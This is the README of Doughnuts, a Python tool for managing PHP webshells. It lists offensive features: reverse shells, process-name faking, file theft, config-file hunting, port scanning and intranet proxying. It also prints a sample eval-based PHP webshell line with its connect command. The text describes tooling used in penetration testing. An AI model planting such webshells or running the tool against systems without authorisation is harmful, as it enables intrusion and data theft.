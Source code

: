 ```yaml
---
description: 一个特化的Webshell管理工具
---
```


# Doughnuts

_基于Python3.6+的PHPwebshell管理器_

 [![YPIoee.png](https://camo.githubusercontent.com/5fee1ac94ee27c8de48598887d64edfd6a30b44f/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496f65652e706e67)](https://camo.githubusercontent.com/5fee1ac94ee27c8de48598887d64edfd6a30b44f/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496f65652e706e67) [![YPIjQf.png](https://camo.githubusercontent.com/e0529a5dd719de0df2906f30943ff4d5108f90c2/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496a51662e706e67)](https://camo.githubusercontent.com/e0529a5dd719de0df2906f30943ff4d5108f90c2/68747470733a2f2f73312e617831782e636f6d2f323032302f30352f30352f5950496a51662e706e67)

## 特征

* 支持连接、记录、管理Webshell，方便下一次连接
* 基于eval的连接，支持GET、POST、COOKIE以及HEADERS四种连接方式
* 支持编码payload\(已内置base64，str\_rot13两种编码,可以通过添加encode目录中的py文件进行扩展\),以实现连接带有解码的Webshell
* 核心功能
  * 获取网站，系统信息
  * 获取一个临时的非完全交互式shell和webshell
  * 以php/python的方式反弹shell\(windows/unix通用\)
  * 读/写/上传/下载/删除网站文件
  * 网站目录打包下载
  * 寻找可写的PHP文件\(以树状结构显示\)
  * 寻找配置文件\(文件名中包含cfg/config/db/database\) 也可以通过修改代码来支持寻找更多的文件\(以树状结构显示\)
  * 输出disbale\_functions
  * 端口扫描
  * 内网代理浏览
* 使用可扩展性的模块化编写，易于编写、管理自定义插件

## 依赖

* Python3.6+
* Python-requests
* Python-colorama

## 安装方法

```text
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```text

error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));/
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```text
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 作者

原作者：Longlone

Github 链接：[https://github.com/WAY29/Doughnuts](https://github.com/WAY29/Doughnuts)

## 更新



### V1.8

* 优化连接时发送的请求,从发送三次变成发送2次
* 修改pdf命令的逻辑,在连接时获取
* 优化reshell命令,命令格式为reshell {lhost} {port} {type=\[python\|script\|upload\]{1\|2\|3},default = 0 \(Python:1 Not Python:3\)} {\(Only for Mode 2\) fakename=/usr/lib/systemd} 三种模式分别为:1-&gt;使用python pty模块升级, 2-&gt;使用linux自带的script命令升级, 3-&gt;上传一个反弹pty的二进制文件并运行\(可以伪造进程名,若无法反弹请进入libs目录拿取源码,使用目标相同发行版进行编译后覆盖原reverse\_server\_light文件\)

### V1.7

* 修改reshell命令,修复bug,优化体验,可以随意伪装进程名
* 在libs目录下放置reverse\_server\_light的源码,方便编译与修改\(origin:[https://github.com/QAX-A-Team/ptyshell](https://github.com/QAX-A-Team/ptyshell)\)
* 重写portscan,支持三种扫描方式

### V1.6

* 修复了若干bug
* 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell\(仅限双方系统都是linux且可能存在一定的问题\)

### V1.5

* modify指令现在会调用notepad/vim进行编辑
* write指令现在会调用notepad/vim进行编辑
* dump命令现在使用原始php代码进行压缩,可以压缩子目录
* 优化了发送payload的间隔符

### V1.4

* 添加指令:修改文件
* 关闭debug模式
* 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示

## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.

